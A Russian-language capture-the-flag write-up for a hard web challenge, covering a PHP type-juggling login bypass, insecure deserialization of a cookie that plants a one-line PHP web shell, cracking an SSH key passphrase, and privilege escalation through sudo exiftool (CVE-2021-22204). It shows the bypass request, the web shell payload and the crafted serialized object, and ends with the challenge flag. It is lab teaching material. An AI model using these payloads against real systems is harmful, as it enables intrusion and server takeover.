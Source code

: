# How?

## Описание:


| Название | Сложность | Автор |
|------|-----|-------|
| How? | Hard |[@collapsz](https://t.me/collapsz) |

## TLDR:

**Type Juggling**, **Insecure Deserialization**, **exiftool CVE**

---
## Решение:

Веб встречает весьма скудно:

![изображение](https://github.com/user-attachments/assets/ca35ad61-254c-4517-99cc-25d183038b84)

Фаззинг при помощи `dirsearch`:

![изображение](https://github.com/user-attachments/assets/d4ac97bd-8fb3-4ca9-9507-7c9761382c70)

`whatweb` – стек используемых технологий: 

![изображение](https://github.com/user-attachments/assets/21124386-e30b-4613-be57-baad0959b57e)

Перебор Auth Bypass методик может привести к Type Juggling:

И в самом деле запрос вида 

```
curl -X POST http://how.rdg/admin.php -d username=admin&password[]=
```

Вернет нам 302 код ответа и Set-Cookie, уведомляя об успешной авторизации

![изображение](https://github.com/user-attachments/assets/8beb1021-13b4-4a64-ab04-a3982c881866)

Внимательно приглядевшись к содержимому куки или воспользовавшись Burp Scan, можно увидеть ее необычное содержимое: 

![изображение](https://github.com/user-attachments/assets/401ea192-ee33-417b-b38c-783658341c44)

Это ничто иное, как сериализованный объект, по содержимому которого становится понятно, что он логирует успешную авторизацию пользователя в файл /var/logs/log.txt 

Мы можем попробовать повлиять на этот процесс. Для этого нам потребуется повторно пройти авторизацию, но изменить куку ДО первого входа, чтобы успешно залогировать его в виде нужной нагрузки в нужном на месте. Для начала посмотрим на изначальный объект:

```
O:4:"User":3:{s:8:"username";s:5:"admin";s:13:"UserlogFile";s:17:"/var/logs/log.txt";s:16:"UserlogContent";s:16:"User logged in: ";}
```

Нам нужно изменить путь до лог-файла и содержимое логфайла.

В качестве нагрузки будем использовать простой однострочный шелл (внимательно смотрим на длину полезной нагрузки, это пригодится в атаке. В нашем случае – 15):

```
<?=`$_GET[0]`?>
```

В качестве пути к лог-файлу воспользуемся стандартной корневой директорией Apache – `/var/www/html`

Удаляем куку, повторно авторизуемся при помощи `Type Juggling`, перехватываем запрос с кукой, и заменяем объект на следующее (чтобы не собирать нагрузку вручную, можно воспользоваться `php serizalize` и `php unserialize` ):

```
O:4:"User":3:{s:8:"username";s:5:"admin";s:13:"UserlogFile";s:24:"/var/www/html/loz678.php";s:16:"UserlogContent";s:15:"<?=`$_GET[0]`?>";}
```

После замены пропускаем запрос на /admin.php и проверяем файл `/loz678.php`:

![изображение](https://github.com/user-attachments/assets/355e51ca-a139-4621-a8e8-247298f26e27)

Пробрасываем себе реверс-шелл и приступаем к перечислению ресурсов системы.

![изображение](https://github.com/user-attachments/assets/62c8abd7-6d6d-45c2-95ad-602f1b6885a8)

В /mnt/hjfs/delivery находим послание и `приватный ssh ключ`, сбрутив который получаем пассфразу: 

![изображение](https://github.com/user-attachments/assets/3ea4acdd-e696-4632-bf59-bd07b8d342ce)


```
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
asshole          (kkknano)     
1g 0:00:02:02 DONE (2025-02-12 02:57) 0.008176g/s 15.82p/s 15.82c/s 15.82C/s 1234qwer..bigbird
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Авторизуемся под пользователем, проверяем sudoers:

```
dalton@28b9dd443e55:~$ sudo -l
sudo -l
Matching Defaults entries for dalton on 28b9dd443e55:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User dalton may run the following commands on 28b9dd443e55:
    (ALL) NOPASSWD: /usr/local/bin/exiftool
```

exiftool – perl скрипт. При помощи `head -n 50 /usr/local/bin/exiftool` можем узнать версию – 12.23:
```
dalton@28b9dd443e55:~$ head -n 50 /usr/local/bin/exiftool
head -n 50 /usr/local/bin/exiftool
#!/usr/bin/perl -w
#------------------------------------------------------------------------------
# File:         exiftool
#
# Description:  Read/write meta information
#
# Revisions:    Nov. 12/03 - P. Harvey Created
#               (See html/history.html for revision history)
#------------------------------------------------------------------------------
use strict;
require 5.004;

my $version = '12.23';
```

Это достаточно быстро выведет нас на (CVE-2021-22204)[https://www.exploit-db.com/exploits/50911]

При помощи эксплоита готовим вредоносную картинку и убеждаемся в работоспособности: 

![изображение](https://github.com/user-attachments/assets/c97637d9-69cd-4954-b898-2f88727a6fd2)

Готовим сплоит на запуск `/bin/bash`, запускаем, получаем шелл

![изображение](https://github.com/user-attachments/assets/fdee2cde-21c3-4f0e-9685-1f16aea139b3)

## Flag:
rdg{886891839c6bd6b86d650f9d788c8e08}
